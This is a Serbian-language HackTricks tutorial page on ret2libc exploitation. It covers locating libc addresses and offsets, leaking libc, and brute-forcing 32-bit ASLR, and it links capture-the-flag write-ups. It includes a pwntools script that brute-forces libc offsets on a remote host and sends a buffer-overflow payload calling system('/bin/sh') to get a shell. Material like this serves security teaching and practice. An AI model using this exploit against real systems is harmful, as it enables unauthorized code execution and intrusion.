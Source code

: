 # Ret2lib

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## **Osnovne informacije**

Suština **Ret2Libc** je preusmeravanje izvršnog toka ranjivog programa ka funkciji unutar deljene biblioteke (npr. **system**, **execve**, **strcpy**) umesto izvršavanja shell koda koji je dostavljen od strane napadača na steku. Napadač kreira payload koji menja povratnu adresu na steku tako da pokazuje na željenu bibliotečku funkciju, dok istovremeno organizuje da svi neophodni argumenti budu pravilno postavljeni prema konvenciji pozivanja.

### **Primer koraka (simplifikovan)**

* Dobiti adresu funkcije koja se poziva (npr. system) i komandu koja se poziva (npr. /bin/sh)
* Generisati ROP lanac da se prosledi prvi argument koji pokazuje na string komande i izvršni tok funkciji

## Pronalaženje adresa

* Pretpostavljajući da se `libc` koji se koristi nalazi na trenutnoj mašini, možete pronaći gde će biti učitan u memoriju sa:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ako želite da proverite da li ASLR menja adresu libc-a, možete uraditi sledeće:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Znajući korišćeni libc, takođe je moguće pronaći offset do funkcije `system` pomoću:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Znajući korišćeni libc, takođe je moguće pronaći offset do stringa `/bin/sh` funkcije sa:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Korišćenje gdb-peda / GEF

Znajući korišćenu libc biblioteku, takođe je moguće koristiti Peda ili GEF da dobijete adresu funkcije **system**, funkcije **exit** i stringa **`/bin/sh`** :
```bash
p system
p exit
find "/bin/sh"
```
### Korišćenje /proc/\<PID>/maps

Ako proces stvara **decu** svaki put kada komunicirate s njim (mrežni server), pokušajte da **pročitate** taj fajl (verovatno će vam biti potrebna root privilegija).

Ovde možete pronaći **tačno gde je učitan libc** unutar procesa i **gde će biti učitan** za svako dete procesa.

![](<../../../.gitbook/assets/image (853).png>)

U ovom slučaju učitan je na **0xb75dc000** (Ovo će biti bazna adresa libc-a)

## Nepoznat libc

Moguće je da **ne znate koji libc učitava binarni fajl** (jer se možda nalazi na serveru do kojeg nemate pristup). U tom slučaju možete iskoristiti ranjivost da **procurete neke adrese i pronađete koji libc** biblioteku se koristi:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Takođe možete pronaći šablon pwntools-a za ovo u:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### Poznavanje libc-a sa 2 offseta

Proverite stranicu [https://libc.blukat.me/](https://libc.blukat.me/) i koristite **par adresa** funkcija unutar libc-a da biste saznali **verziju koja se koristi**.

## Zaobilaženje ASLR-a u 32 bita

Ovi napadi brute-forcinga su **korisni samo za 32-bitne sisteme**.

* Ako je eksploatacija lokalna, možete pokušati da brute-force-ujete baznu adresu libc-a (korisno za 32-bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati **bruteforce-ovati adresu `libc` funkcije `usleep`**, prosleđujući kao argument 10 (na primer). Ako server u nekom trenutku **dodatno odgovori za 10 sekundi**, pronašli ste adresu ove funkcije.

## Jedan Gadget

Izvršite shell skočivši na **jednu** određenu **adresu** u libc-u:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Primer Koda

U ovom primeru, ASLR bruteforce je integrisan u kod, a ranjivi binarni fajl se nalazi na udaljenom serveru:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## Primer koda za x64 Ret2lib

Proverite primer sa:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Primer ARM64 Ret2lib

U slučaju ARM64, instrukcija ret skače na lokaciju na koju pokazuje registar x30, a ne na lokaciju na koju pokazuje registar steka. Zbog toga je malo složenije.

Takođe, u ARM64 instrukcija radi ono što instrukcija radi (nije moguće skočiti usred instrukcija i transformisati ih u nove).

Proverite primer sa:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## Ret-into-printf (ili puts)

Ovo omogućava **procurivanje informacija iz procesa** pozivanjem `printf`/`puts` sa određenim podacima postavljenim kao argument. Na primer, stavljanje adrese `puts` u GOT u izvršavanje `puts` će **procuriti adresu `puts` u memoriji**.

## Ret2printf

Ovo u osnovi znači zloupotrebu **Ret2lib kako bi se pretvorio u ranjivost sa formatiranim stringovima za `printf`** koristeći `ret2lib` za pozivanje printf sa vrednostima koje će je iskoristiti (zvuči beskorisno, ali je moguće):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Ostali primeri i reference

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, dajući procuru adresu funkcije u libc-u, koristeći jedan alat
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bita, ASLR omogućen ali bez PIE-a, prvi korak je popuniti prekoračenje dok se ne dođe do bajta 0x00 kanara, a zatim pozvati puts i procuriti ga. Sa kanarom se kreira ROP alatka za pozivanje puts kako bi procurila adresa puts iz GOT-a, a zatim ROP alatka za pozivanje `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bita, ASLR omogućen, bez kanara, prekoračenje steka u glavnoj funkciji iz podfunkcije. ROP alatka za pozivanje puts kako bi procurila adresu puts iz GOT-a, a zatim poziva jedan alat.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bita, bez PIE-a, bez kanara, bez relro, nx. Koristi funkciju pisanja za procurivanje adrese pisanja (libc) i poziva jedan alat.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Koristi formatiran string za procurivanje kanara sa steka i prekoračenje bafera za pozivanje sistema (nalazi se u GOT-u) sa adresom `/bin/sh`.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 bita, bez relro-a, bez kanara, nx, pie. Zloupotreba lošeg indeksiranja za procurivanje adresa libc-a i hipa sa steka. Zloupotreba prekoračenja bafera za pozivanje `system('/bin/sh')` preko ret2liba (potrebna je adresa hipa da bi se zaobišla provera).
